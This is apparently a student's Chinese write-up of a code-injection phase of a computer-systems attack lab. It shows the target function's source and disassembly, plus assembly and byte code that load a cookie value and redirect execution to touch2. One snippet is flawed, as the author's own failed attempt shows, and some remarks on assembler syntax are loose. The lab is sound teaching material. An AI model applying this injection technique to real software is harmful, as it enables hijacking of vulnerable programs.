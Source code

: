 ```c
void touch2 (unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```

```
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
	...
```

类似的，如果我们需要切换到touch2，除了引导touch2的入口地址0x4017ec外还需要给出参数val，让val和cookie（0x59b997fa）相等。这里需要我们插入代码段，完整做完lab2后已经不难写出如下代码：

```
movl    $0x59b997fa, %edi # 提供val
pushq   0x4017ec          # touch2
retq

```

movl、movq都是mov操作，前者是32位，后者64位，实验给的cookie显然用32位即可，写汇编时注意尾部提行，不然可能会报warning。

现在我们将其编译后再反编译获取其字节码表达形式，注意，这里有个问题是objdump反编译时可能会遇到格式问题，我因为这个原因失败了好几次（默认x86-84格式），最好是手动选择intel或者att格式，前者适用于windows、DOS，后者适用于Linux。

```
l2.o：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	ff 34 25 ec 17 40 00 	pushq  0x4017ec
   c:	c3                   	retq
```

但是我最后还是失败了，我参考了别人成功通过的代码，发现我反汇编后得到的pushq和他们的不一样，所以果断换另外一种不需要pushq的方法，直接将其放到栈上。

```
mov     $0x59b997fa, %rdi # 提供val
retq
```
